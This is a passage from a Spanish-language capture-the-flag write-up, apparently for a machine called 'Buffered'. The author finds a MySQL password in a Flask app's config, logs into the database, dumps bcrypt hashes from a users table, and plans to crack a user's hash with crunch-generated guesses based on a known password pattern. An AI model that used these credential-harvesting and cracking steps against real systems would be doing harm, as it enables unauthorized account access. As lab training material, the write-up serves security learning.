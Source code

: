 al parecer el código genera contraseñas como estas:

```css
j.doe@buffered_xxxxxx
```

Sabiendo esto podriamos intentar generar la contraseña de el usuario christine o tyler pero no podriamos saber los números que irian al final ya que es totalmente aleatorio, por lo que podriamos probar en buscar las credenciales de la base de datos mysql que está corriendo para ver si asi encontramos el hash de algún usuario. Para esto filtro por "mysql" en el archivo `app.py` que se encuentra en `~/dashboard`:

```css
wilson@90accd52b14f:~$ cat dashboard/app.py  | grep -i "mysql"
# Config MySQL
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'db_manager'
app.config['MYSQL_PASSWORD'] = 'Heig9At,'
app.config['MYSQL_DB'] = 'myflaskapp'
wilson@90accd52b14f:~$ 
```

ya tenemos credenciales para la base de datos, por lo que nos conectaremos de la siguiente manera:

```css
mysql -h 127.0.0.1 -u db_manager -pHeig9At,
```

Una vez dentro, listamos las bases de datos con `show databases;`  y solo vemos una llamada "myflaskapp". Ahora seleccionamos la base de datos con `use myflaskapp;` y listamos las tablas con `show tables;`. De la base de datos que encontramos, la única tabla que nos interesa es la siguiente:

```css
mysql> select*from users_old;

admin@buffered.dl     | $2y$10$r0547dSzx5IU3aMqifomSOxiksd18H9uw6jtUABG1gaXm4i536SWG
wilson@buffered.dl    | $2y$10$z2.Hbp46qdxtejA73XZyv.ScuBc4x79YytjeGpN8twSB2zFRdfrsq tyler@buffered.dl     | $2y$10$FJCGWarfD8uN8wX2ynyrLeBmPwFygBkV9DBt5A67RloYZFQkPeNDS 
christine@buffered.dl | $2y$10$QYb/E/Rby6El2m4yfhfKf.eyX2.fz2zzNI8.xT8ihfwfKFT2WlDya

mysql>
```

perfecto, ahora que tenemos un hash, debemos elegir que usuario generar contraseñas para intentar romperla, y luego de revisar los procesos decido que el usuario christine es la mejor opcion ya que es el único que está ejecutando algo en segundo plano (posiblemente la web):

```css
wilson@90accd52b14f:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
christiine     318  0.0  1.1 535400 43812 ?        Ss   Feb18   0:04 python /home/christine/.site/APP_3411/app.py
wilson       850  0.0  0.1   8332  4280 pts/0    R+   00:44   0:00 ps aux
wilson@90accd52b14f:~$ 
```

Ahora como sabemos que las contraseñas siempre empiezan igual, en el caso de christine seria "c.ross@buffered_xxxxxx" (ross porque como vimos antes en la página principal, christine tenia el apellido ross), y solo generaremos los números usando `crunch`:
